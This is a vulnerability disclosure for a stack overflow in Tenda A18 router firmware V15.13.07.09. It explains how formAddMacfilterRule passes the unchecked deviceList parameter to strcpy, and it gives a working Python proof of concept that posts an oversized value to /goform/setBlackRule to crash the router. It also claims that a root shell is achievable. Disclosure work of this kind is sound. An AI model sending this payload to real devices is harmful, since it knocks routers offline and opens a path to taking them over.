 # Tenda A18 V15.13.07.09 Stack overflow vulnerability by formAddMacfilterRule

## Firmware information

- Manufacturer's address: https://www.tenda.com.cn/
- Firmware download address: https://www.tenda.com.cn/download/detail-2760.html

## Affected version

I have verified that **Tenda A18 V15.13.07.09** products have stack overflow vulnerability, and other series products have not been verified for the time being.

## Vulnerability details

`formAddMacfilterRule`

![image-20230804113717246](./img/image-20230804113717246.png)

`formAddMacfilterRule` gets the parameter **deviceList** from the user input, but does not verify the length of the user input, and then call `parse_macfilter_rule` function.

The **rule_info** structure is as follows:

```c
struct dev_info
{
  char mac_addr[32];
  char name[128];
};
```

![image-20230804113922694](./img/image-20230804113922694.png)

`parse_macfilter_rule` also does not check the parameter, and directly uses the `strcpy` function to assign the parameter to **rule_info**, resulting in **stack overflow vulnerability**.



## POC

```python
import requests


def calculate_length(data):
    count = 0
    for x, y in data.items():
        count += len(x) + len(y) + 2
    return count - 1


data = {'deviceList': 'a' * 0x400 + '\r' + 'ff:ff:ff:ff:ff:ff'}

headers = {
    'Host': '192.168.0.1',
    'Content-Length': f'{calculate_length(data)}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'password=1234',
    'User-Agent':
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
    'Accept':
    'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Upgrade-Insecure-Requests': '1',
    'Connection': 'close'
}

url = 'http://192.168.0.1/goform/setBlackRule'

res = requests.post(url=url, headers=headers, data=data, verify=False)

print(res)
```

By running the poc, you can see the crash.

With careful construction of the exp, we can finally get the root shell.







